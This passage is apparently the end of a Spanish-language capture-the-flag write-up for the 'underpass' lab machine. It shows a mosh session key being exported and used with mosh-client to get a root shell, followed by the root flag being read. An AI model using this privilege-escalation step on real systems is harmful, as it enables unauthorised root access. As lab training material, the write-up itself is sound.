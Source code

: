 Y ahora podemos utilizar `mosh-client` para ganar una sesión como `root`, primero exportamos la clave generada por el servidor a la variable de entorno `MOSH_KEY`
```console
export MOSH_KEY=epr04rwHVS9hoFA/nVVoWA
```

Y ahora podemos utilizar `mosh-client` para establecer la sesión.
```console
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
....
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@underpass:~# cat root.txt
f316f248d310c...
```

¡Y ya estaría!

Happy Hacking! 🚀
